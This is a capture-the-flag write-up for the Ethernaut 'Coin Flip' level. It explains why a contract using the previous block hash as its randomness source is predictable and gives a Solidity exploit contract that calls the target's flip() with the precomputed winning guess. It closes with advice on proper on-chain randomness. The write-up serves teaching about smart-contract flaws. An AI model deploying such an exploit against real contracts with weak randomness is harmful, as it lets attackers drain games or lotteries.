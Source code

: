 # 03. Coin Flip

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help:

- See the Help page above, section "Beyond the console"

## Solution

The algorithm does not use a valid RNG generator. The random number is generated as:

```solidity
// 1. Get block hash
uint256 blockValue = uint256(blockhash(block.number.sub(1)));

// 2. Verify value is not equals to the last one
if (lastHash == blockValue) {
  revert();
}
lastHash = blockValue;

// 3. Divide the blockValue for a static variable
uint256 coinFlip = blockValue.div(FACTOR);

// 4. RNG (?) :D
bool side = coinFlip == 1 ? true : false;
```

From [solidity docs](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#block-and-transaction-properties):

> `block.number (uint)`: current block number

> `block.blockhash(uint blockNumber) returns (bytes32)`: hash of the given block - only works for 256 most recent, excluding current, blocks - deprecated in version 0.4.22 and replaced by `blockhash(uint blockNumber)`.

This is not an actual random generation function and it shouldn't be used as it allows a bad actor to predict the result of the estraction.

To complete the challenge we need to create an our contract on Rinkeby that calculate the winning side and submit it to the actual contract.

```solidity
// Copy everything from the challenge contract
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';
contract CoinFlip {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  constructor() public {
    consecutiveWins = 0;
  }
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    if (lastHash == blockValue) {
      revert();
    }
    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
// Then create the Exploit contract we will use to win the challenge
contract ExploitContract {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address originalAddress = 0x6370131977a2955c0bA8Bf319477A853580eb592; // change according to the challenge address
  CoinFlip public originalContract = CoinFlip(originalAddress);
  function exploit() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    originalContract.flip(side);
  }
}
```

Submit exploit function for ten times. Then in the challenge console:

```javascript
(await contract.consecutiveWins()).words[0]
// 10
```

## OZ Corner

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

